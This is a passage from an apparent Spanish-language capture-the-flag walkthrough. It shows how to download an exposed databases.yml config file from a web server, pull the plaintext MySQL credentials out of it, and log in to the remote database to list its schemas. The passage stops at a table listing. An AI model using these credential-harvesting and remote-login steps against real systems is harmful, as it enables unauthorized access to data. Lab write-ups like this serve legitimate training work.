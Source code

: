 Veremos que es lo que viene por defecto como en el `GitHub`, vamos a probar a quitar `.sample` a ver si tuvieran una real que se esta utilizando.

```
URL = http://<IP>/core/config/databases.yml
```

Veremos que efectivamente nos descarga otro archivo y contiene lo siguiente:

```yml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qpm;host=localhost'
      profiler: false
      username: qpmadmin
      password: "<?php echo urlencode('qpmpazzw') ; ?>"
      attributes:
        quote_identifier: true
```

Vemos ya credenciales que pueden ser validas para la conexion de `MySQL` vamos a probarlas de la siguiente manera.

## Escalate user qpmadmin

```shell
mysql --skip-ssl -s -h <IP> -u qpmadmin -pqpmpazzw
```

Info:

```
MariaDB [(none)]>
```

Con esto ya estaremos dentro, una vez dentro vamos a listar las `DDBBs` de `MySQL`.

```mysql
show databases;
```

Info:

```
Database
hidden
information_schema
mysql
performance_schema
qpm
```

Vamos a listar la de `hidden`.

```mysql
use hidden
show tables;
```
